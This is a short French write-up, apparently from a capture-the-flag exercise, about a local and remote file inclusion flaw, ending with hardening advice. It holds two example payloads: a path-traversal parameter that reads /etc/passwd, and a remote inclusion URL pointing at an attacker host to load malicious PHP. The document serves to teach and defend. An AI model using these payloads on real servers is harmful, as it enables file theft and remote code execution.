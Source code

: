 # Include

## Méthodologie

Nous avons tenté d'exploiter cette faille en modifiant un paramètre d'URL jusqu'à trouver le fichier local `/etc/passwd` :

![include-flag](Assets/include-flag.png)

## Détails de la faille
L’inclusion de fichiers non sécurisée est une vulnérabilité qui permet à un attaquant d’inclure des fichiers arbitraires dans une application web. Cela peut mener à :
- **Local File Inclusion (LFI)** : Inclusion de fichiers locaux du serveur (ex: `/etc/passwd`, `config.php`).
- **Remote File Inclusion (RFI)** : Inclusion de fichiers distants hébergés sur un serveur contrôlé par l’attaquant.

Un attaquant peut exploiter cette faille en modifiant un paramètre d’URL vulnérable comme :
```php
?page=../../../../../etc/passwd
```
Ou, en cas de RFI :
```php
?page=http://attacker.com/malware.php
```


## Type de faille
- **Vulnérabilité** : Inclusion de fichiers non sécurisée (LFI/RFI).
- **Impact** : Lecture de fichiers sensibles, exécution de code arbitraire, prise de contrôle du serveur.


## Conclusion
Les attaques LFI/RFI sont **extrêmement dangereuses**, car elles permettent un accès non autorisé à des fichiers critiques ou l’exécution de scripts malveillants.

**Recommandations pour sécuriser les inclusions** :
- **Utiliser des chemins absolus** et éviter les variables utilisateur dans `include()` / `require()`.
- **Restreindre les fichiers accessibles** avec une **whitelist**.
- **Désactiver `allow_url_include`** pour empêcher les RFI.
- **Échapper et valider les entrées utilisateur** avant leur utilisation.
